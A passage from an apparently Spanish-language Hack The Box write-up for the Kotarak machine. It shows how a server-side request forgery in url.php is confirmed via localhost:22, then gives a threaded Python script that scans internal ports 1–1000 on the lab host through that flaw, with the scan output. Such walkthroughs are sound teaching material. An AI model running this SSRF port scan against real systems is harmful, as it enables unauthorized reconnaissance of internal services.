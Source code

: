 No vemos nada. Asi que vamos a tratar se ver si podemos ver puertos abiertos internos en la máquina, podriamos tratar con el puerto 22 que sabemos que se encuentra abierto:

```bash
http://localhost:22
```

![](/assets/images/htb-kotarak/kotarak-ssh.png)

Vemos la cabecera del servicio SSH, por lo que vamos a tratar de descubrir puertos internos abiertos en la máquina víctima, los primeros 1000; así que nos vamos a crear un pequeño programa en python:

```python
#!/usr/bin/python3
#coding: utf-8

import sys, requests, threading, signal

# Ctrl + c
def def_handler(sig, frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def makeRequest(uri, port):
    r = requests.get(uri)
    if r.text.strip():
        print("\n[*] El puerto {} está abierto".format(port))

if __name__ == '__main__':
    url = "http://10.10.10.55:60000/url.php?path=http%3A%2F%2Flocalhost%3A"
    threads = []
    for port in range(1, 1000):
        uri = url + str(port)
        t = threading.Thread(target=makeRequest, args=(uri, port))
        threads.append(t)
        t.start()
```

```bash
❯ python3 port-discovery.py

[*] El puerto 22 está abierto

[*] El puerto 90 está abierto

[*] El puerto 110 está abierto

[*] El puerto 320 está abierto

[*] El puerto 200 está abierto

[*] El puerto 888 está abierto
```
